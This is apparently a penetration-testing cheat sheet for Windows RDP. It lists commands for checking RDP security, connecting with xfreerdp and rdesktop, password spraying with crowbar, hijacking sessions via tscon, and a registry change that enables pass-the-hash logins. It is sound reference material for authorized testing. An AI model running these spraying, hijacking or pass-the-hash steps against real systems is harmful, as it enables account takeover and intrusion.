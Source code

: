 # windows rdp

% rdp, windows, 3389
#plateform/windows  #target/local  #protocol/rdp #port/3389

## Check the security settings of the RDP service.
```
rdp-sec-check.pl <FQDN/IP>
```

## Log in to the RDP server from Linux.
```
xfreerdp /u:<user> /p:"<password>" /v:<FQDN/IP>
```

## crowbar - Password spraying on RDP
```
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

## rdesktop - Connect to RDP
```
rdesktop -u admin -p password123 192.168.2.143
```

## tscon - Impersonate user
```
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

## Execute RDP session hijack
```
net start sessionhijack
```

## Enable Restricted Admin mode to allow Pth
```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
